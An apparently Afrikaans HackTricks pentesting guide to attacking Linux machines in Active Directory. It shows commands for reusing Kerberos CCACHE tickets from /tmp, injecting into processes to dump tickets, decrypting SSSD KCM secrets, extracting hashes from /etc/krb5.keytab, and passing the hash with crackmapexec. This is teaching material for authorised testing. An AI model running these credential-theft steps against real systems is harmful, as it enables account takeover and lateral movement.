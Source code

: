 # Linux Active Directory

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

'n Linux masjien kan ook teenwoordig wees binne 'n Active Directory omgewing.

'n Linux masjien in 'n AD mag **verskillende CCACHE kaartjies binne lêers stoor. Hierdie kaartjies kan gebruik en misbruik word soos enige ander kerberos kaartjie**. Om hierdie kaartjies te lees, moet jy die gebruiker-eienaar van die kaartjie wees of **root** binne die masjien.

## Enumerasie

### AD enumerasie vanaf linux

As jy toegang het oor 'n AD in linux (of bash in Windows) kan jy probeer [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) om die AD te enumerate.

Jy kan ook die volgende bladsy nagaan om **ander maniere te leer om AD vanaf linux te enumerate**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA is 'n oopbron **alternatief** vir Microsoft Windows **Active Directory**, hoofsaaklik vir **Unix** omgewings. Dit kombineer 'n volledige **LDAP gids** met 'n MIT **Kerberos** Sleutelverspreidingsentrum vir bestuur soortgelyk aan Active Directory. Dit gebruik die Dogtag **Sertifikaatstelsel** vir CA & RA sertifikaatbestuur, en ondersteun **multi-faktor** verifikasie, insluitend slimkaarte. SSSD is geïntegreer vir Unix verifikasieprosesse. Leer meer daaroor in:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Speel met kaartjies

### Pass The Ticket

Op hierdie bladsy gaan jy verskillende plekke vind waar jy **kerberos kaartjies binne 'n linux gasheer kan vind**, op die volgende bladsy kan jy leer hoe om hierdie CCache kaartjie formate na Kirbi (die formaat wat jy in Windows moet gebruik) te transformeer en ook hoe om 'n PTT aanval uit te voer:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE kaartjie hergebruik vanaf /tmp

CCACHE lêers is binêre formate vir **storing van Kerberos geloofsbriewe** wat tipies met 600 toestemmings in `/tmp` gestoor word. Hierdie lêers kan geïdentifiseer word deur hul **naamformaat, `krb5cc_%{uid}`,** wat ooreenstem met die gebruiker se UID. Vir verifikasie van die verifikasieticket, moet die **omgewing veranderlike `KRB5CCNAME`** op die pad van die gewenste kaartjie lêer gestel word, wat hergebruik daarvan moontlik maak.

Lys die huidige kaartjie wat vir verifikasie gebruik word met `env | grep KRB5CCNAME`. Die formaat is draagbaar en die kaartjie kan **hergebruik word deur die omgewing veranderlike** met `export KRB5CCNAME=/tmp/ticket.ccache` te stel. Kerberos kaartjie naamformaat is `krb5cc_%{uid}` waar uid die gebruiker se UID is.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE kaartjie hergebruik vanaf sleutelring

**Kerberos kaartjies wat in 'n proses se geheue gestoor is, kan onttrek word**, veral wanneer die masjien se ptrace beskerming gedeaktiveer is (`/proc/sys/kernel/yama/ptrace_scope`). 'n Nuttige hulpmiddel vir hierdie doel is te vind by [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), wat die onttrekking vergemaklik deur in sessies in te spuit en kaartjies in `/tmp` te dump.

Om hierdie hulpmiddel te konfigureer en te gebruik, word die onderstaande stappe gevolg:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Hierdie prosedure sal probeer om in verskeie sessies in te spuit, wat sukses aandui deur onttrokken kaartjies in `/tmp` te stoor met 'n naamkonvensie van `__krb_UID.ccache`.

### CCACHE kaartjie hergebruik van SSSD KCM

SSSD hou 'n kopie van die databasis by die pad `/var/lib/sss/secrets/secrets.ldb`. Die ooreenstemmende sleutel word as 'n verborge lêer by die pad `/var/lib/sss/secrets/.secrets.mkey` gestoor. Standaard is die sleutel slegs leesbaar as jy **root** regte het.

Die aanroep van \*\*`SSSDKCMExtractor` \*\* met die --database en --key parameters sal die databasis ontleed en **die geheime ontcijfer**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Die **credential cache Kerberos blob kan omskep word in 'n bruikbare Kerberos CCache** lêer wat aan Mimikatz/Rubeus oorgedra kan word.

### CCACHE kaartjie hergebruik vanaf keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Trek rekeninge uit /etc/krb5.keytab

Diensrekening sleutels, wat noodsaaklik is vir dienste wat met root regte werk, word veilig gestoor in **`/etc/krb5.keytab`** lêers. Hierdie sleutels, soortgelyk aan wagwoorde vir dienste, vereis streng vertroulikheid.

Om die inhoud van die keytab-lêer te ondersoek, kan **`klist`** gebruik word. Die hulpmiddel is ontwerp om sleutelbesonderhede te vertoon, insluitend die **NT Hash** vir gebruikersverifikasie, veral wanneer die sleuteltipe as 23 geïdentifiseer word.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Vir Linux gebruikers bied **`KeyTabExtract`** funksionaliteit om die RC4 HMAC-has te onttrek, wat benut kan word vir NTLM-has hergebruik.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Op macOS dien **`bifrost`** as 'n hulpmiddel vir sleuteltabelfilaanalise.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Deur die onttrokken rekening- en hash-inligting te gebruik, kan verbindings met bedieners gevestig word met behulp van gereedskap soos **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Verwysings

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
